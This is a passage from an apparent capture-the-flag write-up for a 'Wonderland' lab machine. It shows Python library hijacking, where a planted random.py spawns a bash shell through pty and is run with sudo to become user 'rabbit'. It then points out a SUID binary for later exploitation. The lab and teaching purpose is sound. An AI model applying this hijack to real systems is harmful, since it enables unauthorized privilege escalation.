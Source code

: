         return "injected"


if __name__=='__main__':
        # do nothing
        print("nothing")

alice@wonderland:~$ /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
The line was:    injected
The line was:    injected
The line was:    injected
The line was:    injected
The line was:    injected
The line was:    injected
The line was:    injected
The line was:    injected
The line was:    injected
The line was:    injected
```

It works so we can move laterally to rabbit.

```
$ cat random.py 
import pty

def choice(string: str):

        pty.spawn("/bin/bash")

        return "inject"

if __name__=='__main__':
        # do nothing
        print("nothing")
```


```

alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ whoami
rabbit
```


## Rabbit

```
rabbit@wonderland:/home/rabbit$ ls -la
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
```

there is a teaParty file with suid bit set, we can maybe reverse engineer this executable

```
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.